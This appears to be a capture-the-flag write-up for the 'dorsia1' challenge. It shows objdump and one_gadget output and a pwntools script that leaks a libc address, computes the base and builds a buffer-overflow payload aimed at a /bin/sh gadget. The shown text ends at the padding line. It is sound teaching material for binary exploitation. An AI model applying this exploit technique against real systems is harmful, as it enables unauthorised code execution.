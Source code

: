### Exploit

After downloading the `libc` from `dorsia4`, I found the offset of `system` using `objdump`.

```bash
$ objdump -S ./libc.so.6 | grep system
000000000004f440 <__libc_system@@GLIBC_PRIVATE>:
   4f443:       74 0b                   je     4f450 <__libc_system@@GLIBC_PRIVATE+0x10>
```

The offset of `system` is `0x4f440`. Here is the first snippet of the exploit script which connects to the remote and calculates the `libc` base address.

```python
from pwn import *

p = remote('dorsia1.wpictf.xyz', 31337)

system_offset = 0x4f440

addr = p.recv().decode()
addr_system = int(addr, 16) - 765772

libc_base = addr_system - system_offset
print(hex(libc_base))
```

Now, for finding a `one gadget`, I used [this tool](https://github.com/david942j/one_gadget). Here is the output of `one_gadget`.

```bash
$ one_gadget ./libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
You can see the constraints that need to be met for that gadget to work. I decided to use `0x4f322` since the chances of `[rsp+0x40]` being `NULL` were high. The address of the gadget can be calculated by adding this offset to the base address. This is all we need to solve this challenge. The padding value had to be guesses but it was obviously greater than `69` and `77` worked. Here is the final script.

```python
from pwn import *

p = remote('dorsia1.wpictf.xyz', 31337)

addr = p.recv().decode()

addr_system = int(addr, 16) - 765772

system_offset = 0x4f440
one_offset = 0x4f322

libc_base = addr_system - system_offset
one_gadget = libc_base + one_offset

payload = b'A' * 77
```